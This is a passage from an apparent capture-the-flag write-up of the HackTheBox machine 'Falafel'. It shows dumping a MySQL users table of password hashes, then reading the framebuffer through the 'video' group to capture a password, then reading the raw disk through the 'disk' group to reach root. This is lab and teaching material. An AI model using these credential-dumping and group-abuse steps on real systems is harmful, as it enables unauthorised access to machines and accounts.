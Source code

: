 ```
mysql -u moshe -p
Enter password: falafel[snip]
[..snip..]
mysql> use falafel
Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+
| ID | username | password                         | role   |
+----+----------+----------------------------------+--------+
|  1 | admin    | 0e462096931906507119562988736854 | admin  |
|  2 | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 | normal |
+----+----------+----------------------------------+--------+
mysql>exit;
moshe@falafel:~$
```

Hash cracking time, favourite time!... Which didn't yield any good results.
So back to enumeration. checking groups you can see that there was some non-default assigned to moshe

```
moshe@falafel:~$ cat /etc/group|grep video
video:x:44:moshe
moshe@falafel:~$
```

Now video is an interesting group, according to Ubuntu Wiki[^4] ```The "video" group can access /dev/fb0``` which is a framebuffer.
So with that in mind we can run some simple commands and capture the image from fb0. But to be able to convert it into a image we also need the resolution of fb0.

```
moshe@falafel:~$ cat /dev/fb0 > /tmp/sb.raw
moshe@falafel:~$ cat /sys/class/graphics/fb0/virtual_size
1176,885
moshe@falafel:~$
```

Using SCP or your own preference in transferring the image to your own Kali, the script `iraw2png.pl`[^5] can be used to convert the "raw" image to a viewable png. which gets us the user:yossi password.

```
ssh yossi@10.10.10.73
yossi@10.10.10.73's password: Moshe[..snip..]
yossi@falafel:~$ cat /etc/group | grep disk
disk:x:6:yossi
yossi@falafel:~$
```

Again we see that yossi is in an interesting group "disk" gives the permission for users in the group to read contents of `/dev/sdX`.

```
yossi@falafel:~$ ls /dev/sda*
/dev/sda  /dev/sda1  /dev/sda2  /dev/sda5
yossi@falafel:~$ strings /dev/sda5 | grep root.txt
[..snip..]
echo "EatSleepPwnRepeat" > root.txt
[..snip..]
yossi@falafel:~$
```


[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)